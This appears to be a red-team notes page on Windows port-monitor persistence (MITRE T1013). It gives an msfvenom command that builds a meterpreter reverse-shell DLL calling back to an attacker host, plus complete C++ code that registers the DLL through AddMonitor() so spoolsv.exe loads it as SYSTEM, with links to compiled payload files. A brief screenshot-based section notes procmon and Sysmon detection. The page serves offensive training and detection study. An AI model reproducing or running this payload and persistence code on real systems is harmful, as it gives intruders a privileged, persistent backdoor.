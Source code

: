 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1013: AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe:

{% tabs %}
{% tab title="attacker@local" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endtab %}
{% endtabs %}

Writing and compiling a simple C++ code that will register the monitor port:

{% tabs %}
{% tab title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```
{% endtab %}
{% endtabs %}

{% file src="../../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to `%systemroot%` and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed by the spoolsvc:

![](../../.gitbook/assets/monitor-loaddll.png)

![](../../.gitbook/assets/monitor-loaddll2.png)

which eventually spawns a rundll32 with meterpreter payload, that initiates a connection back to the attacker:

![](../../.gitbook/assets/rundll-connect.png)

![](../../.gitbook/assets/monitor-shell-system.png)

The below confirms the procmon results explained above:

![](../../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../../.gitbook/assets/monitor-sysmon.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1013" %}

{% embed url="https://www.youtube.com/watch?v=dq2Hv7J9fvk" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx" %}



